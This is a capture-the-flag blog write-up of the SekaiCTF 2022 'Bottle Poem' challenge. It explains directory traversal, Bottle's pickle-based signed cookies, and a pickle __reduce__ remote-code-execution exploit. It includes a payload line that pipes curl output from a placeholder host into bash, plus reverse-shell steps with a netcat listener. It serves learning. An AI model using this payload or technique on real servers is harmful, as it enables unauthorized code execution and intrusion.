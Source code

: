 ```yaml
---
title: "Sekai Ctf 2022 Bottle Poem"
date: 2023-01-06T10:27:19+07:00
image: images/blog/organization/ctf/sekai-ctf-2022-logo.png
feature_image: images/blog/organization/ctf/sekai-ctf-2022-logo.png
author: duti
tags: ["web", "ctf", "duti"]
draft: true
---
```


### Problem statement

{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/problem-statement.png" title="" >}}
Author hints that flag is executable

{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/web-home.png" title="" >}}
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/web-link.png" title="" >}}

The website is vulnerable to directory traversal
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/web-link-directory-traversal.png" title="" >}}

Pick /etc/self/procline to get the start application command
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/directory-traveral-cmd-procline.png" title="" >}}
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/self-procline.png" title="" >}}

So the application source is located at /app/app.py
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/self-procline.png" title="" >}}
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/app-source.png" title="" >}}
{{< gist hdthinh1012 fe0323be1368b472eb49f9b4cd629b07 >}}

If run the code at local change the set_cookie’s session argument to {”name”:”admin”} will get the admin page but it just a trap

The hint said flag is executable, meaning RCE is possible.

Let's have a look at Python Bottle

### Python Bottle
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/bottle-guide.png" title="" >}}

#### Bottle signed cookie
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/bottle-signed-step.png" title="" >}}
Bottle first:

- pickle.dumps([name, value], -1) then base64 encode → encoded
- hmac encrypt the secret seperately then base64 encode → signature
- add ‘!’ at the first char and ‘?’ in between signature

Cookie format: !__secret_hmac_base64__==?__pickle_name_value_base64__==

#### Bottle verify cookie
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/bottle-verify-step.png" title="" >}}
get_cookie:

- …
- base64 decode the pickled then call pickle.loads(pickle.dumps([’name’, “Pickle dumps containing RCE here”], -1))

We have controlled the value input through cookie

### Pickle exploit [Ref](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
Byte-stream created by pickle.dumps contains opcodes that are then one-by-one executed as soon as we load the pickle back in. If you are curious how the instructions in this pickle look like, you can use pickletools to create a disassembly: pickletools.dis(pickled)

{{< gist hdthinh1012 25791fc3bef8393f262434672ad6557f >}}

pickle still allows you to define a custom behavior for the pickling process for your class instances.


```
The __reduce__() method takes no argument and shall return either a string or 
preferably a tuple (the returned object is often referred to as the “reduce value”). 
[…] When a tuple is returned, it must be between two and six items long. 
Optional items can either be omitted, or None can be provided as their value. 
The semantics of each item are in order:

A callable object that will be called to create the initial version of the object.
A tuple of arguments for the callable object. An empty tuple must be given if the 
callable does not accept any argument. […]
```

So by implementing `__reduce__` in a class which instances we are going to pickle, we can give the pickling process a callable plus some arguments to run. While intended for reconstructing objects, we can abuse this for getting our own reverse shell code executed.

So if any value in the array pass into pickle.dumps is an instance containing `__reduce__`(…) function, that reduce will be executed when calling pickle.loads(…). And the `__reduce__`(…) implement demand returns an tuple with first value an executable, callable method in python for example (os.system, eval or any function), the second value is argument of the callable.

So by implement reduce method that `return (eval, ('__import__("os").popen("curl xxx|bash")',))` , we can execute code on the server.

### The exercise step
#### Generate cookie 
Add an class definition with `__reduce__` method (that return reverse shell python code) to create an instance, then pass the instance to the session1[’name’] that passed into set_cookie.

{{< gist hdthinh1012 93a70b6e9a3be020872c3877b7101463 >}}

Running server and go to /sign with the Guest cookie to get the new Cookie with RCE instance dumps

{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/get-malicious-cookie.png" title="" >}}


<!-- {{< gist hdthinh1012 1244973789752ff62c2956e9698570eb >}} -->
In Attackbox, open netcat listener at port 55555:
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/run-nc-listener.png" title="" >}}

Request to the SekaiCTF with RCE cookie
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/run-payload.png" title="" >}}

Netcat listener now receive reverse shell:
{{< figure src="/images/blog/web/duti/sekai-ctf-2022-bottle-poem/access-flag.png" title="" >}}

### Reference Links

Reverse Shell / Bind Shell: 

[https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/)

[https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

[https://www.hackingtutorials.org/networking/hacking-with-netcat-part-3-advanced-techniques/](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-3-advanced-techniques/)

Python Pickle Module `__reduce__` implements allow RCE:

[https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Python Bottle get_cookie set_cookie using pickle.loads and pickle.dumps in its chain of encrypt/encode steps

[https://github.com/bottlepy/bottle/blob/master/bottle.py](https://github.com/bottlepy/bottle/blob/master/bottle.py) (ctrl+f set_cookie, get_cookie)





